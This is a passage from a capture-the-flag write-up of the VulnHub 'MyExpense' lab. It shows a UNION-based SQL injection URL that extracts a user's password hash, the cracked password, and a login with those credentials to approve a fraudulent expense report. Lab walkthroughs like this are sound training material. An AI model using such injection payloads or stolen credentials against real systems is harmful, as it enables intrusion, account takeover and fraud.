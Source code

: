 Extract Paul Baudouin's password hash:

http://192.168.1.25/site.php?id=2 union select 1, (select password from user where username='pbaudouin'), 3,4;#

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense35.png)

The query returned the MD5 hash: `64202ddd5fdea4cc5c2f856efef36e1a`. Cracking this hash revealed the password: **HackMe**.
![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense36.png)

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense37.png)


### Step 5: Final Approval & Flag Retrieval

With Paul Baudouin's credentials (`pbaudouin/HackMe`), login to his account was successful.

From Paul's account, Samuel's expense report (now in "validated" state) was approved and sent for payment.

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense38.png)

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense18.png)
